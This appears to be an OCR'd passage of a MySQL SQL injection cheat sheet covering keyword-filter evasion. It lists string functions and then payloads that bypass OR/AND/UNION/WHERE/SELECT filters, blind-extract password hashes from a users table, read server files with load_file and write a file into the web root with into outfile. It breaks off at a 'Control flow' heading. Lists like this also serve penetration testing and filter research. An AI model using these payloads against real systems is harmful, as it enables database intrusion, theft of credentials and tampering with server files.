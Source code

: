 Search substrings  
 locate\(‘a’,’abc’\)  
 position\(‘a’,’abc’\)  
 position\(‘a’ IN ‘abc’\)  
 instr\(‘abc’,’a’\)  
 substring\_index\(‘ab’,’b’,1\)  
**Cut substrings**  
 length\(trim\(leading ‘a’ FROM ‘abc’\)\)  
 length\(replace\(‘abc’, ‘a’, ”\)\)  
**Compare strings**  
 strcmp\(‘a’,’a’\)  
 mod\(‘a’,’a’\)  
 find\_in\_set\(‘a’,’a’\)  
 field\(‘a’,’a’\)  
 count\(concat\(‘a’,’a’\)\)  
**String length**  
 length\(\)  
 bit\_length\(\)  
 char\_length\(\)  
 octet\_length\(\)  
 bit\_count\(\)  
**String case**  
 ucase  
 lcase  
 lower  
 upper  
 password\(‘a’\) != password\(‘A’\)  
 old\_password\(‘a’\) != old\_password\(‘A’\)  
 md5\(‘a’\) != md5\(‘A’\)  
 sha\(‘a’\) != sha\(‘A’\)  
 aes\_encrypt\(‘a’\) != aes\_encrypt\(‘A’\)  
 des\_encrypt\(‘a’\) != des\_encrypt\(‘A’\)  
  
**Connected keyword filtering**  
 \(0\)union\(select\(table\_name\),column\_name,…  
 0/\*\*/union/\*!50000select\*/table\_name\`foo\`/\*\*/…  
 0%a0union%a0select%09group\_concat\(table\_name\)….  
 0’union all select all\`table\_name\`foo from\`information\_schema\`. \`tables\`  
OR, AND  
 ‘\|\|1=’1  
 ‘&&1=’1  
 ‘=’  
 ‘-‘  
OR, AND, UNION  
 ‘ and \(select pass from users limit 1\)=’secret  
OR, AND, UNION, LIMIT  
 ‘ and \(select pass from users where id =1\)=’a  
OR, AND, UNION, LIMIT, WHERE  
 ‘ and \(select pass from users group by id having id = 1\)=’a  
OR, AND, UNION, LIMIT, WHERE, GROUP  
 ‘ and length\(\(select pass from users having substr\(pass,1,1\)=’a’\)\)  
OR, AND, UNION, LIMIT, WHERE, GROUP, HAVING  
 ‘ and \(select substr\(group\_concat\(pass\),1,1\) from users\)=’a  
 ‘ and substr\(\(select max\(pass\) from users\),1,1\)=’a  
 ‘ and substr\(\(select max\(replace\(pass,’lastpw’,”\)\) from users\),1,1\)=’a  
OR, AND, UNION, LIMIT, WHERE, GROUP, HAVING, SELECT  
 ‘ and substr\(load\_file\(‘file’\),locate\(‘DocumentRoot’,\(load\_file\(‘file’\)\)\)+length\(‘DocumentRoot’\),10\)=’a  
 ‘=” into outfile ‘/var/www/dump.txt  
OR, AND, UNION, LIMIT, WHERE, GROUP, HAVING, SELECT, FILE  
 ‘ procedure analyse\(\)\#  
 ‘-if\(name=’Admin’,1,0\)\#  
 ‘-if\(if\(name=’Admin’,1,0\),if\(substr\(pass,1,1\)=’a’,1,0\),0\)\#  
Control flow  